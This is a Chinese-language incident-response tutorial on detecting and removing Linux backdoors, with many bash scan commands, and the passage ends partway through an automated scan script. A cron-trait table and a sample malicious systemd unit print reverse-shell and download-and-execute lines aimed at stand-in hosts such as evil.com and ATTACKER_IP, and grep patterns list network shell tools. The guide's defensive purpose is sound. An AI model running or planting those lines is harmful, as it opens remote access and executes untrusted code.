

## 案例三：后门检测与清除

### 3.1 背景与威胁模型

#### 3.1.1 什么是后门

后门（Backdoor）是攻击者在完成初始入侵后植入系统中的一类恶意机制，目的是在被发现和修补原始入侵路径后仍然能够维持对目标系统的访问权限。与初始入侵不同，后门的设计目标是**隐蔽性**和**持久性**——它需要在系统重启、管理员换班、甚至部分安全审计之后依然存活。

从攻击链（Kill Chain）的视角来看，后门对应的是 MITRE ATT&CK 框架中的 **Persistence（持久化）** 和 **Defense Evasion（防御规避）** 两个战术阶段。一个成熟的攻击者在获得初始访问权限后，通常会在 24 小时内部署至少一种持久化机制，然后在 72 小时内部署多层冗余后门。

#### 3.1.2 为什么后门检测是应急响应的关键环节

在应急响应过程中，如果只封堵了初始入侵路径而遗漏了后门，攻击者可以随时重新进入系统。根据 CrowdStrike 2024 年的报告，约 40% 的二次入侵事件源于首次事件中未被发现的持久化机制。因此，后门检测与清除是应急响应中不可跳过的收尾环节。

后门检测的难点在于：

- **多样性**：后门形式从简单的 SSH 公钥到内核级 Rootkit，覆盖整个系统栈
- **隐蔽性**：高级后门会主动对抗检测工具，如替换系统命令、劫持动态库
- **时间窗口**：攻击者可能在数周甚至数月前植入后门，日志已被覆盖
- **误报风险**：合法的系统配置变更可能与后门特征相似

#### 3.1.3 后门分类体系

后门可以按照技术层次和攻击面进行系统分类：

| 分类维度 | 类型 | 示例 | 隐蔽程度 | 检测难度 |
|---------|------|------|---------|---------|
| 认证层 | SSH 密钥后门 | 注入攻击者公钥到 authorized_keys | 低 | 低 |
| 认证层 | 账户后门 | 创建 UID=0 的隐藏用户 | 低-中 | 低 |
| 计划任务层 | Cron 后门 | 定时反弹 Shell | 中 | 低-中 |
| 计划任务层 | Systemd Timer 后门 | 伪装成合法服务的定时任务 | 中-高 | 中 |
| 服务层 | Web Shell | PHP/JSP/ASP 一句话木马 | 中 | 中 |
| 服务层 | 自定义后门服务 | 监听高端口的反弹 Shell | 中 | 中 |
| 启动层 | rc.local 启动脚本 | 开机自动执行恶意脚本 | 中 | 低 |
| 启动层 | Systemd 服务后门 | 伪装成系统服务 | 高 | 中 |
| 应用层 | PAM 后门 | 修改认证模块接受万能密码 | 高 | 高 |
| 应用层 | LD_PRELOAD 后门 | 劫持动态链接库 | 高 | 高 |
| 内核层 | LKM Rootkit | 可加载内核模块隐藏进程/文件 | 极高 | 极高 |
| 网络层 | 端口敲门后门 | 特定包序列触发后门激活 | 极高 | 极高 |

下文按照从易到难的顺序逐一讲解检测与清除方法。

---

### 3.2 SSH 密钥后门检测与清除

SSH 密钥后门是最常见、最简单的持久化手段。攻击者只需将自己的一对公钥注入目标用户的 `authorized_keys` 文件，即可无需密码直接登录。

#### 3.2.1 检测原理

SSH 服务在认证时会读取 `~/.ssh/authorized_keys` 文件中的公钥列表。每个用户都有独立的 authorized_keys 文件，路径规则为 `$HOME/.ssh/authorized_keys`。攻击者通常会写入自己的公钥并添加注释以标记归属，但精明的攻击者会删除注释。

#### 3.2.2 全面排查步骤

**第一步：定位所有 authorized_keys 文件**

```bash
# 查找所有 authorized_keys 文件（包括软链接指向的实际文件）
find / -name "authorized_keys" -type f 2>/dev/null
find / -name "authorized_keys2" -type f 2>/dev/null

# 同时查找可能被重命名或移动的授权文件
find / -name ".authorized_keys" -type f 2>/dev/null
find / -name "authorized_keys*" -type f 2>/dev/null
```

**第二步：逐文件检查内容**

```bash
# 遍历所有 authorized_keys 文件并显示详细信息
for f in $(find / -name "authorized_keys*" -type f 2>/dev/null); do
    echo "========================================"
    echo "文件路径: $f"
    echo "文件权限: $(stat -c '%a %U:%G' "$f" 2>/dev/null)"
    echo "最后修改: $(stat -c '%y' "$f" 2>/dev/null)"
    echo "公钥数量: $(wc -l < "$f")"
    echo "--- 公钥内容 ---"
    # 显示每行公钥的关键信息：类型、注释
    while IFS= read -r line; do
        [ -z "$line" ] && continue
        key_type=$(echo "$line" | awk '{print $1}')
        key_comment=$(echo "$line" | awk '{print $NF}')
        key_fingerprint=$(echo "$line" | ssh-keygen -lf - 2>/dev/null | awk '{print $2}')
        echo "  类型: $key_type | 注释: $key_comment | 指纹: $key_fingerprint"
    done < "$f"
    echo ""
done
```

**第三步：检查 SSH 服务端配置**

```bash
# 查看有效的 SSH 配置（去除注释和空行）
sshd -T 2>/dev/null | sort

# 重点关注以下配置项
sshd -T 2>/dev/null | grep -iE "^(pubkeyauthentication|passwordauthentication|permitemptypasswords|authorizedkeysfile|permittunnel|allowtcpforwarding|gatewayports|permitrootlogin|banner)"
```

**第四步：检查 SSH 私钥泄露**

```bash
# 查找系统上所有 SSH 私钥
find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" \
    -o -name "*.pem" -o -name "*.key" 2>/dev/null | while read -r f; do
    echo "=== $f ==="
    ls -la "$f"
    # 检查私钥权限是否过于宽松
    perms=$(stat -c '%a' "$f")
    if [ "$perms" != "600" ] && [ "$perms" != "400" ]; then
        echo "  [!] 警告: 权限过于宽松 ($perms)，可能已被读取"
    fi
done
```

#### 3.2.3 清除操作

```bash
# 备份原始文件（用于事后取证）
cp /root/.ssh/authorized_keys /root/.ssh/authorized_keys.bak.$(date +%Y%m%d%H%M%S)

# 方法一：如果能确认哪些是合法公钥，只删除攻击者的
# 先用 ssh-keygen -lf 对比每个公钥的指纹与已知合法密钥
ssh-keygen -lf /path/to/known_good_key.pub

# 方法二：如果无法确认，先清空再重建
# 注意：这会导致所有基于密钥的 SSH 登录失效，确保你有其他管理手段
> /root/.ssh/authorized_keys
# 然后重新添加合法公钥

# 修复文件权限
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh
chown root:root /root/.ssh/authorized_keys
```

#### 3.2.4 常见误区

- **只检查 root 用户**：攻击者可能在普通用户的 authorized_keys 中植入后门，然后通过 sudo 提权
- **忽略 authorized_keys2**：虽然 OpenSSH 默认不读取此文件，但旧版或自定义配置可能使用
- **不检查文件权限**：如果 authorized_keys 权限过宽（如 644），SSH 会拒绝使用其中的密钥，但攻击者可能利用这一点做信号标记

---

### 3.3 计划任务后门检测与清除

计划任务后门利用 Linux 的定时执行机制，在固定时间间隔自动运行恶意代码。这类后门的优势是即使被检测到并删除了主后门程序，定时任务仍然会按计划重新下载或重建。

#### 3.3.1 Cron 任务排查

Linux 的 Cron 任务分布在多个位置，必须全部检查：

```bash
# 检查所有用户的 crontab
for user in $(cut -d: -f1 /etc/passwd); do
    cron_content=$(crontab -l -u "$user" 2>/dev/null)
    if [ -n "$cron_content" ]; then
        echo "=== 用户: $user ==="
        echo "$cron_content"
        echo ""
    fi
done

# 检查系统级 crontab
echo "=== /etc/crontab ==="
cat /etc/crontab

# 检查 cron.d 目录下的所有文件
echo "=== /etc/cron.d/ ==="
for f in /etc/cron.d/*; do
    echo "--- $f ---"
    cat "$f"
    echo ""
done

# 检查各周期目录中的脚本
for dir in /etc/cron.hourly /etc/cron.daily /etc/cron.weekly /etc/cron.monthly; do
    if [ -d "$dir" ]; then
        echo "=== $dir ==="
        ls -la "$dir"
        # 检查脚本内容中是否包含可疑命令
        for f in "$dir"/*; do
            [ -f "$f" ] || continue
            grep -lE "(curl|wget|nc|ncat|bash -i|python|perl|ruby|base64)" "$f" 2>/dev/null && \
                echo "  [!] 可疑: $f"
        done
    fi
done

# 检查 /var/spool/cron/ 目录（某些发行版使用此路径）
ls -la /var/spool/cron/crontabs/ 2>/dev/null
```

**Cron 后门的典型特征：**

| 特征 | 说明 | 示例 |
|------|------|------|
| 极短的执行间隔 | 每分钟或每 5 分钟执行一次 | `*/5 * * * * /tmp/.hidden/script.sh` |
| 网络请求命令 | 下载远程 payload | `curl http://evil.com/payload.sh \| bash` |
| 反弹 Shell | 建立反向连接 | `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` |
| 隐藏路径 | 使用点号开头的隐藏目录 | `/tmp/.X11-unix/.backdoor` |
| 环境变量注入 | 设置 PATH 或 LD_PRELOAD | `PATH=/tmp/.bin:$PATH /usr/bin/systemctl` |

#### 3.3.2 Systemd 定时器排查

现代 Linux 发行版越来越多地使用 systemd timer 替代 cron：

```bash
# 列出所有定时器（包括未激活的）
systemctl list-timers --all --no-pager

# 检查每个定时器对应的 service
systemctl list-timers --all --no-pager | grep -v "^NEXT" | awk '{print $NF}' | while read -r timer; do
    service="${timer%.timer}.service"
    echo "=== $timer -> $service ==="
    systemctl cat "$service" 2>/dev/null | head -20
    echo ""
done

# 查找所有自定义定时器文件
find /etc/systemd/system/ -name "*.timer" -type f 2>/dev/null
find /lib/systemd/system/ -name "*.timer" -type f 2>/dev/null
```

#### 3.3.3 at 任务排查

```bash
# 列出所有待执行的 at 任务
atq

# 查看每个任务的具体内容
for job_id in $(atq | awk '{print $1}'); do
    echo "=== Job $job_id ==="
    at -c "$job_id"
    echo ""
done
```

#### 3.3.4 清除操作

```bash
# 清除指定用户的 crontab
crontab -r -u <用户名>

# 编辑 crontab 只删除恶意行（推荐）
crontab -e -u <用户名>

# 删除恶意的 cron.d 文件
rm -f /etc/cron.d/<恶意文件名>

# 停止并删除恶意 systemd 定时器
systemctl stop <恶意timer名>.timer
systemctl disable <恶意timer名>.timer
rm -f /etc/systemd/system/<恶意timer名>.timer
rm -f /etc/systemd/system/<恶意timer名>.service
systemctl daemon-reload

# 清除 at 任务
atrm <job_id>
```

---

### 3.4 启动脚本与服务后门检测

启动后门利用系统初始化流程实现持久化，在系统每次启动或用户每次登录时自动执行恶意代码。

#### 3.4.1 经典 SysVinit 启动脚本

```bash
# 检查 rc.local（最后执行的启动脚本，最常被利用）
if [ -f /etc/rc.local ]; then
    echo "=== /etc/rc.local ==="
    cat /etc/rc.local
    # 检查权限和修改时间
    ls -la /etc/rc.local
    stat /etc/rc.local
fi

# 检查 init.d 中的脚本
echo "=== /etc/init.d/ 非标准脚本 ==="
# 对比包管理器安装的脚本与实际存在的脚本
if command -v dpkg &>/dev/null; then
    # Debian/Ubuntu
    diff <(dpkg -S '/etc/init.d/*' 2>/dev/null | sed 's/:.*//;s/.*\///' | sort -u) \
         <(ls /etc/init.d/ | sort -u) | grep "^>"
elif command -v rpm &>/dev/null; then
    # CentOS/RHEL
    diff <(rpm -qf /etc/init.d/* 2>/dev/null | grep -v "not owned" | sed 's/.*\///' | sort -u) \
         <(ls /etc/init.d/ | sort -u) | grep "^>"
fi

# 检查 rc*.d 目录中的软链接
for level in /etc/rc{0,1,2,3,4,5,6}.d; do
    [ -d "$level" ] || continue
    # 找出指向非标准脚本的链接
    ls -la "$level"/S* "$level"/K* 2>/dev/null | grep -v -E "(motd|hostname|hwclock|networking|procps|rsyslog|ssh|cron|udev|mount|hostname|checkroot|checkfs|sendsigs|umountfs|reboot|halt|single)" | head -20
done
```

#### 3.4.2 Systemd 服务后门

Systemd 是现代 Linux 的标准初始化系统，也是后门持久化的重灾区：

```bash
# 列出所有已加载的 service 文件
systemctl list-unit-files --type=service --no-pager

# 查找非包管理器安装的服务文件
if command -v dpkg &>/dev/null; then
    echo "=== 非 Debian 包安装的服务文件 ==="
    find /etc/systemd/system/ -name "*.service" -type f | while read -r f; do
        dpkg -S "$f" &>/dev/null || echo "[!] 未由包管理器安装: $f"
    done
fi

# 检查所有自定义服务文件的内容
for f in /etc/systemd/system/*.service; do
    [ -f "$f" ] || continue
    echo "=== $f ==="
    echo "修改时间: $(stat -c '%y' "$f")"
    # 提取关键配置
    grep -E "^(ExecStart|ExecStartPre|ExecStartPost|User|Type|Restart|WantedBy)" "$f"
    echo ""
done

# 检查 drop-in 配置（覆盖原有服务行为）
find /etc/systemd/system/ -name "*.conf" -path "*/service.d/*" -type f 2>/dev/null
find /etc/systemd/system/ -name "*.conf" -path "*override*" -type f 2>/dev/null
```

**Systemd 服务后门的典型伪装手法：**

```ini
# 正常服务示例
[Unit]
Description=OpenSSH server daemon

# 后门服务可能的特征
[Unit]
Description=System Security Service          # 使用模糊的、听起来合法的名称
After=network.target                          # 确保网络就绪后启动

[Service]
Type=simple
ExecStart=/usr/bin/python3 -c 'import socket,os;...'  # 直接执行反弹 Shell
ExecStart=/bin/bash -c "curl http://evil.com/x|bash"  # 远程下载执行
Restart=always                                # 被杀后自动重启
RestartSec=10                                 # 10秒后重启

[Install]
WantedBy=multi-user.target
```

#### 3.4.3 用户登录脚本后门

```bash
# 检查所有用户的 shell 初始化文件
for user_home in /root /home/*; do
    [ -d "$user_home" ] || continue
    username=$(basename "$user_home")
    echo "=== 用户: $username ==="
    for rc_file in .bashrc .bash_profile .profile .bash_login .bash_logout .zshrc .zprofile; do
        fpath="$user_home/$rc_file"
        [ -f "$fpath" ] || continue
        # 检查是否有可疑内容
        content=$(cat "$fpath")
        if echo "$content" | grep -qE "(curl|wget|nc |ncat|python.*socket|base64|eval\(|nohup|/dev/tcp)"; then
            echo "[!] $fpath 中发现可疑内容:"
            echo "$content" | grep -nE "(curl|wget|nc |ncat|python.*socket|base64|eval\(|nohup|/dev/tcp)"
        else
            echo "  $fpath - 未发现明显可疑内容"
        fi
    done
done

# 检查全局 shell 配置
for f in /etc/profile /etc/profile.d/*.sh /etc/bash.bashrc /etc/environment; do
    [ -f "$f" ] || continue
    if grep -qE "(curl|wget|nc |ncat|eval\(|/dev/tcp)" "$f"; then
        echo "[!] $f 中发现可疑内容"
    fi
done
```

#### 3.4.4 清除操作

```bash
# 清理 rc.local
# 注释掉恶意行（而非直接清空，保留文件结构）
sed -i 's/^<恶意命令>/# & # removed during incident response/' /etc/rc.local

# 停止并删除恶意 systemd 服务
systemctl stop <恶意服务名>.service
systemctl disable <恶意服务名>.service
systemctl mask <恶意服务名>.service   # mask 比 delete 更彻底，防止被重新启用
rm -f /etc/systemd/system/<恶意服务名>.service
rm -f /etc/systemd/system/<恶意服务名>.service.d/*.conf  # 清除 drop-in
systemctl daemon-reload

# 恢复用户 shell 配置
# 从备份恢复或手动删除恶意行
```

---

### 3.5 Web Shell 检测与清除

Web Shell 是针对 Web 服务器的后门，攻击者通过上传恶意脚本文件（PHP、JSP、ASP/ASPX、Python 等），然后通过 HTTP 请求远程执行命令。

#### 3.5.1 检测策略

Web Shell 检测通常从三个维度入手：**文件特征**、**代码特征**、**访问日志**。

**第一步：基于时间线的文件扫描**

```bash
# 查找最近 N 天内修改的所有 Web 文件（根据入侵时间线调整）
WEB_ROOT="/var/www"
DAYS=30

echo "=== 最近 ${DAYS} 天修改的文件 ==="
find "$WEB_ROOT" -type f \( -name "*.php" -o -name "*.phtml" -o -name "*.php5" \
    -o -name "*.jsp" -o -name "*.jspx" -o -name "*.asp" -o -name "*.aspx" \
    -o -name "*.py" -o -name "*.pl" -o -name "*.cgi" \) \
    -mtime -"$DAYS" -ls 2>/dev/null | sort -k11

# 查找隐藏的 Web 文件
find "$WEB_ROOT" -name ".*" -type f \( -name "*.php" -o -name "*.jsp" \) 2>/dev/null

# 查找异常位置的脚本文件（如上传目录中的可执行文件）
find "$WEB_ROOT" -path "*/upload*" -type f \( -name "*.php" -o -name "*.jsp" \) 2>/dev/null
find "$WEB_ROOT" -path "*/image*" -type f \( -name "*.php" -o -name "*.phtml" \) 2>/dev/null
```

**第二步：基于代码特征的静态分析**

```bash
# 搜索高危函数调用
grep -rnE "(eval\s*\(|assert\s*\(|system\s*\(|exec\s*\(|passthru\s*\(|shell_exec\s*\(|popen\s*\(|proc_open\s*\()" \
    "$WEB_ROOT" --include="*.php" 2>/dev/null

# 搜索编码/加密混淆特征
grep -rnE "(base64_decode\s*\(|gzinflate\s*\(|gzuncompress\s*\(|str_rot13\s*\(|rawurldecode\s*\(|convert_uudecode\s*\()" \
    "$WEB_ROOT" --include="*.php" 2>/dev/null

# 搜索变量函数调用（动态执行）
grep -rnE '\$_(GET|POST|REQUEST|COOKIE)\[.*\]\s*\(' "$WEB_ROOT" --include="*.php" 2>/dev/null

# 搜索一句话木马变体
grep -rnE '\$\{.*\}' "$WEB_ROOT" --include="*.php" 2>/dev/null | head -50
grep -rnE 'str_replace\s*\(.*chr\s*\(' "$WEB_ROOT" --include="*.php" 2>/dev/null

# 搜索 Web Shell 工具的特征签名
grep -rnE "(c99shell|r57shell|WSO\s|b374k|FilesMan|Ani-Shell|PHPSPY)" \
    "$WEB_ROOT" --include="*.php" 2>/dev/null
```

**第三步：基于访问日志的异常行为分析**

```bash
# 查找访问了可疑文件的请求
# 假设 Web 服务器日志在 /var/log/nginx/ 或 /var/log/apache2/
LOG_DIR="/var/log/nginx"

# 查找访问 .php 文件的非正常来源 IP
awk '{print $1}' "$LOG_DIR"/access.log | sort | uniq -c | sort -rn | head -20

# 查找对隐藏文件或异常路径的访问
grep -E "\.(php|jsp|asp)" "$LOG_DIR"/access.log | \
    grep -E "(/tmp|/upload|/\.\.|/backup)" | head -20

# 查找 POST 请求到非 API 端点的异常流量
grep "POST" "$LOG_DIR"/access.log | \
    awk '{print $7}' | sort | uniq -c | sort -rn | head -20
```

#### 3.5.2 专业扫描工具

| 工具 | 用途 | 安装方式 | 特点 |
|------|------|---------|------|
| LMD (Linux Malware Detect) | Web Shell 专项扫描 | `git clone https://github.com/rfxn/linux-malware-detect.git && cd linux-malware-detect && ./install.sh` | 基于签名库，定期更新，适合 Web 服务器 |
| ClamAV | 通用恶意软件扫描 | `apt install clamav && freshclam` | 签名库大，但对新型 Web Shell 检测率一般 |
| Yara | 模式匹配引擎 | `apt install yara` | 可编写自定义规则，灵活度极高 |
| PHP-Malware-Scanner | PHP 后门扫描 | `git clone https://github.com/nbs-system/php-malware-scanner` | 专门针对 PHP，支持混淆检测 |

```bash
# LMD 使用示例
sudo maldet -a /var/www/           # 全盘扫描
sudo maldet --report all           # 查看扫描报告
sudo maldet -q 0                   # 清理所有检测到的恶意文件

# ClamAV 使用示例
sudo freshclam                     # 更新病毒库
sudo clamscan -r --infected /var/www/  # 递归扫描，只显示感染文件

# Yara 自定义规则示例
cat > /tmp/webshell.yar << 'EOF'
rule WebShell_Eval_Base64 {
    strings:
        $s1 = "eval(base64_decode" nocase
        $s2 = "eval(gzinflate(base64_decode" nocase
        $s3 = "eval(gzuncompress(base64_decode" nocase
    condition:
        any of them
}
EOF
yara /tmp/webshell.yar /var/www/ -r
```

#### 3.5.3 清除操作

```bash
# 1. 隔离而非直接删除（保留取证证据）
mkdir -p /evidence/webshell/$(date +%Y%m%d)
mv /var/www/path/to/webshell.php /evidence/webshell/$(date +%Y%m%d)/

# 2. 记录文件的哈希值用于后续比对
sha256sum /evidence/webshell/$(date +%Y%m%d)/*.php > /evidence/webshell/hashes.txt

# 3. 检查 Web Shell 是否修改了合法文件（内嵌型 Web Shell）
# 对比文件哈希与原始安装包
if command -v dpkg &>/dev/null; then
    dpkg --verify <包名>    # 检查包文件是否被修改
fi

# 4. 修复上传目录权限
chmod 755 /var/www/html/uploads
# 禁止上传目录执行脚本（在 Nginx/Apache 配置中）

# 5. 清除 Web 服务器缓存中的恶意内容（如 opcode cache）
if command -v php &>/dev/null; then
    php -r "opcache_reset();" 2>/dev/null
fi
```

**Nginx 禁止上传目录执行 PHP 的配置示例：**

```nginx
location ~* /uploads/.*\.php$ {
    deny all;
    return 403;
}
```

**Apache 禁止上传目录执行 PHP 的配置示例（.htaccess）：**

```apache
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```

---

### 3.6 用户账户后门检测

#### 3.6.1 隐藏用户检测

攻击者可能创建 UID 为 0 的用户（与 root 同权），或在 /etc/passwd 中添加一条看似正常但实际用于后门的记录。

```bash
# 查找所有 UID=0 的用户（正常情况下只有 root）
echo "=== UID=0 用户（应仅有 root）==="
awk -F: '$3 == 0 {print}' /etc/passwd

# 查找可以登录的用户（有合法 shell）
echo "=== 可登录用户 ==="
grep -v -E "(/nologin|/false|/sync|/shutdown|/halt)$" /etc/passwd

# 查找没有密码或密码为空的用户
echo "=== 无密码用户 ==="
awk -F: '($2 == "" || $2 == "!") {print $1}' /etc/shadow 2>/dev/null

# 查找最近修改的用户信息文件
echo "=== 最近修改的认证文件 ==="
ls -la /etc/passwd /etc/shadow /etc/group /etc/gshadow
stat /etc/passwd /etc/shadow

# 对比 /etc/passwd 的修改记录
# 如果系统有备份，对比当前与备份版本
diff /etc/passwd /etc/passwd- 2>/dev/null   # 某些系统保存前一版本
diff /etc/shadow /etc/shadow- 2>/dev/null

# 检查是否有用户被加入了特权组
echo "=== sudo 组成员 ==="
getent group sudo 2>/dev/null || getent group wheel 2>/dev/null

echo "=== docker 组成员（可提权到 root）==="
getent group docker 2>/dev/null
```

#### 3.6.2 PAM 后门检测

PAM（Pluggable Authentication Modules）后门是一种高级持久化技术，攻击者修改 PAM 模块使系统接受任意密码或特定万能密码。

```bash
# 检查 PAM 配置文件的完整性
echo "=== PAM 配置文件 ==="
ls -la /etc/pam.d/
stat /etc/pam.d/*

# 对比 PAM 模块文件与包管理器的原始版本
if command -v dpkg &>/dev/null; then
    dpkg --verify libpam-modules libpam-modules-bin libpam-runtime
elif command -v rpm &>/dev/null; then
    rpm -Va | grep pam
fi

# 检查是否有非标准的 PAM 模块
ls -la /lib/security/ 2>/dev/null
ls -la /lib/x86_64-linux-gnu/security/ 2>/dev/null
ls -la /usr/lib/security/ 2>/dev/null

# 检查 pam_permit 和 pam_wheel 的配置（过于宽松的认证策略）
grep -rn "pam_permit.so" /etc/pam.d/ 2>/dev/null
grep -rn "pam_wheel.so.*trust" /etc/pam.d/ 2>/dev/null

# 对比配置文件哈希（需要提前建立基线）
# 如果有 AIDE 或 Tripwire 等完整性检查工具
if command -v aide &>/dev/null; then
    aide --check
fi
```

---

### 3.7 高级后门检测

#### 3.7.1 LD_PRELOAD 后门

LD_PRELOAD 后门通过劫持动态链接器，在任何程序启动时优先加载恶意共享库，从而拦截系统调用（如隐藏文件、进程、网络连接）。

```bash
# 检查全局 LD_PRELOAD 配置
echo "=== /etc/ld.so.preload ==="
cat /etc/ld.so.preload 2>/dev/null
if [ -s /etc/ld.so.preload ]; then
    echo "[!] 警告: ld.so.preload 不为空，其中的库会在所有程序之前加载"
    # 检查其中列出的库文件是否存在并分析其内容
    while read -r lib; do
        [ -z "$lib" ] && continue
        echo "  库文件: $lib"
        ls -la "$lib" 2>/dev/null
        file "$lib" 2>/dev/null
        # 列出该库导出的符号
        nm -D "$lib" 2>/dev/null | grep -E "T (open|readdir|readdir64|stat|lstat|fstat|connect|accept|bind|listen)" | head -20
    done < /etc/ld.so.preload
fi

# 检查环境变量中的 LD_PRELOAD
echo "=== LD_PRELOAD 环境变量 ==="
env | grep LD_PRELOAD
cat /etc/environment | grep LD_PRELOAD 2>/dev/null

# 检查各 shell 配置文件中是否设置了 LD_PRELOAD
grep -rn "LD_PRELOAD" /etc/profile /etc/profile.d/ /etc/bash.bashrc /home/*/.bashrc /home/*/.profile /root/.bashrc /root/.profile 2>/dev/null

# 检查 systemd 服务中是否有 LD_PRELOAD 设置
grep -rn "LD_PRELOAD" /etc/systemd/system/*.service 2>/dev/null

# 检查动态链接器配置
cat /etc/ld.so.conf
cat /etc/ld.so.conf.d/*.conf
```

#### 3.7.2 内核模块（LKM）Rootkit 检测

内核级 Rootkit 是最隐蔽的后门形式之一，它通过可加载内核模块（LKM）劫持系统调用表，从内核层面隐藏自身及其关联的进程、文件和网络连接。

```bash
# 列出所有已加载的内核模块
lsmod

# 查找非标准的内核模块
# 对比当前加载的模块与已知系统模块列表
echo "=== 最近加载的模块 ==="
dmesg | grep -i "module" | tail -20

# 检查模块签名
if [ -d /sys/module ]; then
    for mod in /sys/module/*/; do
        modname=$(basename "$mod")
        sig=$(cat "$mod/sig_format" 2>/dev/null)
        [ -z "$sig" ] || echo "  $modname: $sig"
    done
fi

# 查找可疑的内核模块文件
find /lib/modules/$(uname -r) -name "*.ko" -newer /lib/modules/$(uname -r)/modules.dep 2>/dev/null

# 使用 unhide 工具检测隐藏进程和端口
apt install unhide 2>/dev/null || yum install unhide 2>/dev/null
unhide proc     # 检测隐藏进程
unhide sys      # 通过系统调用对比检测隐藏进程
unhide tcp      # 检测隐藏 TCP 端口

# 使用 dtrace/ftrace 跟踪可疑系统调用
# 检查系统调用表是否被篡改（需要内核调试支持）
cat /proc/kallsyms | grep sys_call_table
```

#### 3.7.3 网络后门与隐蔽通道

```bash
# 检查所有监听端口
ss -tunlp | sort

# 对比 ss 与 lsof 的输出，发现隐藏的网络连接
ss -tunp > /tmp/ss_output.txt
lsof -i -P -n > /tmp/lsof_output.txt
# 人工对比两个列表中的连接

# 检查 iptables 规则中是否有端口重定向
iptables -t nat -L -n -v
iptables -L -n -v

# 检查是否有后门监听在 ICMP 或其他非常规协议上
# 使用 tcpdump 抓包分析
tcpdump -i any -c 100 -nn 2>/dev/null | grep -v "ARP"

# 检查 DNS 隧道（DNS 查询中隐藏数据）
# 查找异常的 DNS 查询
tcpdump -i any port 53 -c 50 2>/dev/null | grep -v "A?" | head -20

# 检查 /etc/hosts 是否被篡改（DNS 劫持）
cat /etc/hosts
stat /etc/hosts
```

---

### 3.8 综合应急响应流程

在实际应急响应中，后门检测不是孤立的步骤，而是整个响应流程的收尾环节。以下是完整的后门排查流程：



#### 3.8.1 排查优先级与时间分配建议

| 优先级 | 检查项 | 建议时间 | 说明 |
|-------|--------|---------|------|
| P0-紧急 | SSH authorized_keys | 10 分钟 | 最常见，10 秒即可利用 |
| P0-紧急 | 网络连接（ss/lsof） | 10 分钟 | 确认是否有活跃的 C2 连接 |
| P1-高 | 用户账户（/etc/passwd, shadow） | 15 分钟 | UID=0 和无密码用户 |
| P1-高 | Cron 与 Systemd 定时器 | 20 分钟 | 常见持久化手段 |
| P2-中 | Web Shell | 30 分钟 | 仅在有 Web 服务时 |
| P2-中 | 启动脚本与服务 | 20 分钟 | rc.local 和 systemd service |
| P3-低 | PAM 后门 | 15 分钟 | 高级攻击者才使用 |
| P3-低 | LD_PRELOAD 后门 | 15 分钟 | 高级攻击者才使用 |
| P4-深入 | 内核 Rootkit | 30+ 分钟 | 需要专业工具和经验 |

#### 3.8.2 自动化排查脚本

以下脚本整合了上述所有检查项，可一键执行基础排查：

```bash
#!/bin/bash
# backdoor_scan.sh - Linux 后门快速排查脚本
# 用法: sudo bash backdoor_scan.sh > report.txt 2>&1

REPORT_DIR="/tmp/backdoor_scan_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$REPORT_DIR"

echo "========================================"
echo " Linux 后门快速排查报告"
echo " 时间: $(date)"
echo " 主机: $(hostname)"
echo " 内核: $(uname -r)"
echo "========================================"

# --- SSH 密钥检查 ---
echo ""
echo ">>> [1/7] SSH 密钥后门检查"
find / -name "authorized_keys*" -type f 2>/dev/null | while read -r f; do
    echo "  文件: $f (修改时间: $(stat -c '%y' "$f"))"
    while IFS= read -r line; do
        [ -z "$line" ] && continue
        fp=$(echo "$line" | ssh-keygen -lf - 2>/dev/null)
        echo "    $fp"
    done < "$f"
done

# --- 用户账户检查 ---
echo ""
echo ">>> [2/7] 用户账户后门检查"
echo "  UID=0 用户:"
awk -F: '$3 == 0 {print "    " $1 " (" $7 ")"}' /etc/passwd
echo "  可登录用户:"
grep -v -E "(/nologin|/false|/sync|/shutdown|/halt)$" /etc/passwd | awk -F: '{print "    " $1 " (UID=" $3 ", Shell=" $7 ")"}'
echo "  无密码用户:"
awk -F: '($2 == "" || $2 == "!") {print "    " $1}' /etc/shadow 2>/dev/null

# --- Cron 检查 ---
echo ""
echo ">>> [3/7] 计划任务后门检查"
echo "  用户 crontab:"
for user in $(cut -d: -f1 /etc/passwd); do
    cron=$(crontab -l -u "$user" 2>/dev/null | grep -v "^#" | grep -v "^$")
